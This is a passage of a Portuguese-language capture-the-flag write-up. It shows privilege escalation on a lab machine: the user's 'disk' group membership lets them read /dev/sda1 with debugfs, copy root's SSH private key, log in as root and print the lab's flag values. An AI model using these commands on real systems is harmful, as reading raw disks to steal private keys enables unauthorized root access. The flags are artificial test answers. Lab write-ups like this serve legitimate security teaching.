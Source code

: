 Entre agora por ssh com o usuário yossi e a sua credencial (que de passagem só se vê porque o yossi errou primeiro ao introduzi-la e por "grande sorte" ainda está a vista na tela looooool)

### Group disk

```bash
for group in $(groups); do echo -e "\n\n\n[*] Archive with group $group permition:\n"; find / -group $group 2>/dev/null; done
```

Este commando permite-nos enumerar todos os ficheiro no qual pertence a cada grupo no qual está o usuário. E assim, vemos que o usuário yossio em que estamos logados, tem permissões através do grupo "disk" de leitura e escritura sobre /dev/sda1 e muito mais...

Este /dev/sda1 é muito simplesmente o disco rígido na qual está instalado o prórpio sistema operativo. Mas não dá para abrir assim...

```bash
fdisk -l
#>  Disk /dev/sda: 8 GiB, 8589934592 bytes, 16777216 sectors
#>  Units: sectors of 1 * 512 = 512 bytes
#>  Sector size (logical/physical): 512 bytes / 512 bytes
#>  I/O size (minimum/optimal): 512 bytes / 512 bytes
#>  Disklabel type: dos
#>  Disk identifier: 0x01590ad6
#>
#>  Device     Boot    Start      End  Sectors  Size Id Type
#>  /dev/sda1  *        2048 14680063 14678016    7G 83 Linux
#>  /dev/sda2       14682110 16775167  2093058 1022M  5 Extended
#>  /dev/sda5       14682112 16775167  2093056 1022M 82 Linux swap / Solaris


ll /dev/sda1
#>  brw-rw---- 1 root disk 8, 1 Sep  9 12:08 /dev/sda1
```

### debugfs

Com a ajuda da ferramente debugfs (ext2/ext3/ext4 file system debugger). Podemos ver ou manipular uma partição, um disco ou o seu conteúdo. Podemos assim facilemente ver a flag root.txt, mas a nós o que nos interessa é vir a ser root! Por sorte, em /root/.ssh existem keys para entrar por ssh, já autorizadas... nem percisamos de fazer mais nada. É só copiar e usar a id_rsa:

```bash
debugfs /dev/sda1
debugfs: cd /root/.ssh
debugfs: cat id_rsa  # copy the content...
# Exit the debugfs

cd /tmp
nano id_rsa  # paste the content...
chmod 600 id_rsa
ssh -i id_rsa root@localhost


cat /home/moshe/user.txt
#> c866575ed5999e1a878b1494fcb1f9d3
cat /root/root.txt
#> 23b79200448c62ffd6f8f2091c001fa1
```
